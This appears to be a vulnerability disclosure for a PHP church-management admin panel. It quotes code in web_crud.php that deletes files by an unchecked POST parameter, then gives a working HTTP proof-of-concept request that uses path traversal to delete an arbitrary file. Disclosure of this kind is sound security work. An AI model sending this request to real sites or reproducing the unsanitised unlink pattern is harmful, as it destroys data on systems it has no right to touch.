 ### Vulnerability file address

In line 502 of `church/admin/app/web_crud.php`, `@unlink("../../assets/images/" . $_POST['old_dynamic_img']);`,` $_POST['old_dynamic_img']` parameters have not been restricted, which causes any file to be deleted

```php
if ($_FILES['dynamicphoto']['tmp_name'] != '') {
            $filepath = "../../assets/images/" . generateUniqueFileName($_FILES["dynamicphoto"]["name"]);

            if (move_uploaded_file($_FILES["dynamicphoto"]["tmp_name"], $filepath)) {
                $img13 = basename($filepath);
                @unlink("../../assets/images/" . $_POST['old_dynamic_img']);
            }
        }
```

### POC

```http
POST /church/admin/app/web_crud.php HTTP/1.1
Host: www.church.net
Connection: close
Cookie: PHPSESSID=hl5noegsdjn1ru7skoi8tmqco3
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Length: 381

------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="update6"

1
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="old_dynamic_img"

../../24.txt
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="dynamicphoto";filename="aaa.php"

this is test
------WebKitFormBoundaryTZGvWJmfBtMK9O8p--
```

### Attack results pictures

First, we create a `24.txt` file in the `church/` directory

![image-20250505170942555](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505051709594.png)



Then we execute the above poc to attack

![image-20250505170933031](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505051709080.png)



Files are deleted after the attack is successful

![image-20250505170950229](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505051709258.png)